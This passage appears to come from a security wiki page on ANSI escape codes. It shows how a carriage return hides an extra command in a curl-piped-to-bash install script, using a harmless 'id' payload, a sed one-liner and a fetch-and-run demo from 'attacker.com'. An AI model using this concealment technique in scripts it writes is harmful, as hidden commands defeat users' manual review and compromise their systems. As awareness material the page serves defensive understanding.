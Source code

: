 ```yaml
---
description: >-
  Use special escape codes in the terminal to set colors, change the screen or
  perform other actions
---
```


# ANSI Escape Codes

## Hiding Payloads

### `curl | bash` manual review

A common installation method is a combination of `curl` from a URL that hosts an install script, and `bash` which will execute it. Out of caution, one might first run the `curl` part first to review the script manually before running it. While this helps, it is not foolproof, and using a simple carriage return (`\r`) character a malicious actor can hide extra commands that won't be visible.

Take the example below, where `id` is the 'payload' we want our victim to unknowingly execute. Two things are important here:&#x20;

1. The command after our payload must be longer than the payload to overwrite/hide it fully
2. A `#` character is needed as a comment and prevent errors

{% code title="script.sh" %}
```bash
echo 1
id #
echo 2
```
{% endcode %}

If we store it in a file, we can hide the `id` command by replacing the newline with a carriage return

```shell-session
$ sed -i -z 's/#\n/#\r/g' script.sh
```

If we now host and request this URL, it will look benign, but when executing it the `id` fires:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ curl https://attacker.com/script.sh  # Looks safe
</strong>echo 1
echo 2
<strong>$ curl -s localhost:8000/script.sh | sh  # Payload triggers
</strong>1
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

### Copy-Paste commands
